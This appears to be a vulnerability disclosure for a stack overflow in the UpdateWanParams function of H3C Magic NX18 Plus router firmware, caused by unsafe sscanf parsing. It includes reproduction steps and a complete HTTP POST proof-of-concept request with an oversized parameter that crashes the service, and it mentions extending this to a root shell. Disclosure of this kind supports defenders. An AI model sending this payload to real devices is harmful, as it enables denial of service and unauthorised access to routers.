 #  H3C Magic NX18 Plus NX18PV100R003 has a stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202103/1389284_30005_0.htm

### Product Information

H3C NX18 Plus NX18PV100R003  router, the latest version of simulation overview：

![image-20220720194826789](img/image-20220720194826789.png)

## Vulnerability details

The H3C NX18 Plus NX18PV100R003  router was found to have a stack overflow vulnerability in the UpdateWanParams function. An attacker can obtain a stable root shell through a carefully constructed payload.

![image-20220720211305469](img/image-20220720211305469.png)

In the `UpdateWanParams` function, the `param` we entered is formatted using the `sscanf` function and in the form of `%s`. This greedy matching mechanism is unsafe. As long as the size of the data we enter is greater than the size of `V47` and less than 0x200, it will lead to stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 536
Origin: https://192.168.124.1:80
DNT: 1
Connection: close
Cookie: LOGIN_PSD_REM_FLAG=0; PSWMOBILEFLAG=true
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=UpdateWanParams&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;
```

![image-20220720210723701](img/image-20220720210723701.png)

The picture above shows the process information before we send poc.

![image-20220720210915164](img/image-20220720210915164.png)

In the picture above, we can see that the PID has changed since we sent the POC.

![image-20220720211131193](img/image-20220720211131193.png)

The picture above is the log information.

![image-20220624230619282](img/image-20220624230619282.png)

By calculating offsets, we can compile special data to refer to denial-of-service attacks(DOS).

![image-20220720065911385](img/image-20220723140942626.png)

Finally, you also can write exp to get a stable root shell without authorization.